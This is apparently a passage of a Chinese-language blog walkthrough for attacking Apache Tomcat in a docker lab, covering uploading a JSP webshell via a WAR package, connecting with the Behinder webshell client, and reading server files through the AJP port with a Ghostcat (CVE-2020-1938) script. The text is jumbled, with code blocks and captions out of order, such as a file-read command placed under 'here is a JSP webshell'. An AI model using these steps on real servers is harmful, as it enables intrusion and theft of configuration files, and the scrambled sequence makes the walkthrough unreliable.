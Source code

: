 ![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR3ibnOz2Slh3icgLwEyRibxE9QaKKKOOXicHLOC3OwpPNPViaWLFnzz5LplzrzCIgfnlRDkvqsah4edhxYA/640?wx_fmt=jpeg)

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR3ibnOz2Slh3icgLwEyRibxE9Qa8n1SWNLic4H24pPoicV7SSl4sdKsibLDnQfhSic2iby7rx7jict9kSY1mnUw/640?wx_fmt=jpeg)

这里的`/2`就是 war 包的名字

去 docker 底层看看是否成功上传

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR3ibnOz2Slh3icgLwEyRibxE9QarJOmZmb8pfxdEicmQ6BZldWLweMNZw1M43NicmCib50L2XugXvjr3hWUg/640?wx_fmt=jpeg)

它会自动部署 那我们访问一下

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR3ibnOz2Slh3icgLwEyRibxE9QayJA3eeiba9J5JIibGFzFCWDV8oTExJ9LuW7B126YBX01m9YlH3GxOLrg/640?wx_fmt=jpeg)

成功解析 jsp 大马，并能 upload 上传功能！

这里上传冰蝎的 jsp 马儿

```
Apache Tomcat 9.x < 9.0.31
Apache Tomcat 8.x<8.5.51
Apache Tomcat 7.x<7.0.100
Apache tomcat 6.x

```

```
cd tomcat/CVE-2020-1938

sudo docker-compose up -d

```

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR3ibnOz2Slh3icgLwEyRibxE9QaTGjguWNv1XVNUwKbCW8g6NqlhoJtxXvOgI7X33WmBTqqsFGN6WTickg/640?wx_fmt=jpeg)

upload 之后 上冰蝎进行连接

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR3ibnOz2Slh3icgLwEyRibxE9QaPETeiaZcnyC0fzaFQw4CGkUj1hILQWwJDstSeSicpfiaw1tM0F1qvmtKg/640?wx_fmt=jpeg)

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR3ibnOz2Slh3icgLwEyRibxE9QaibfDjlo0bvXjXWwEpzSUbibxG1CNykjHMNaShcDd9mqP1jUgGE8Fod5A/640?wx_fmt=jpeg)

再贴一个 JSP 大马

```
python2 文件读取.py 192.168.175.191 -p 8009 -f webapps目录下的待读取的文件

```

#### MSF 攻击

```
python2 文件读取.py 192.168.175.191 -p 8009 -f /WEB-INF/web.xml

```

这里就直接略过了 自己去操作一下
